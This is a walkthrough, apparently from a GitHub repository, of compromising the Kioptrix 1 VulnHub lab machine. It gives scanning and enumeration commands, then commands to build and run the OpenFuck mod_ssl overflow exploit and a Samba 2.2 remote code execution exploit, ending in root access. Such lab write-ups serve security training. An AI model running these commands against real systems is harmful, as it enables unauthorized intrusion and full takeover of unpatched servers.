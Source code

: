 # Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95853632-08262c00-0d56-11eb-98fe-073611eb2e6b.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

![kio2](https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png)

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4

This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 

Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

![kio3](https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png)

 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


![kio4](https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png)


## 2. Samba Exploit

**1.enum4linux -a 192.168.1.10**

**2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\**

**3.nmap -p 139 --script=smb-vuln*** **192.168.1.10**

**4.smbmap -P 139 -H 192.168.1.10**

**5.samba_version.py Github**

https://github.com/amitn322/smb-version/blob/master/samba_version.py

**python smb-version/samba_version.py -s 192.168.1.10**

![kio5](https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png)

**Version: Samba2.2**
**searchsploit samba 2.2**

![kio6](https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png)



**Samba < 2.2.8 (Linux/BSD) - Remote Code Execution**


![kio7](https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![kio8](https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png)


**Rooted**
